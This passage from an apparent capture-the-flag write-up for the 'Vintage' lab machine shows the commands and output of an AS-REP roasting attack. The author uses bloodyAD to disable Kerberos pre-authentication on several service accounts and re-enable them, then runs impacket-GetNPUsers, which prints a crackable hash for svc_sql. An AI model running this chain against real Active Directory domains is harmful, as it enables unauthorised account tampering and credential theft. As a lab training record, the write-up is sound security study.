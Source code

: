 ```
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Next disable pre-authentication 
```
──╼ [★]$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
```
Enable account
```
└──╼ [★]$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARK's userAccountControl
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAP's userAccountControl
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```
Check the domain user again 
```
impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:282fb5df95ccb3fad935a4c8c9a5aba2$4534689662271033f44570626dee4da7ad79198e095433326938b6cf20b87e36eb9e38409b7123cc9a900dbcdd3694870c2fec8017ce23d2d0be1092892172c83ce2c78e7bffbfbbf9fe1f561e130470dea31398bfe4e640915f64d2c9d93a73763f9e61e045928087448e1ff9908aab333f9d8174da6554ed7d01ad4ee8a193911678c3ec8bdfc2eec4a03bc690ae5084f34e18f64342677af8f4e098e56c47ba47f1ada387e777734d6902e2679bb8a0c8726626fdc57a89d5eb5829729cc0d65b7a1b7bef708179bee50ee37e98c8ca227f08bdde0f99e44a3709a29cae85a708204b3ec5e1b3473e
```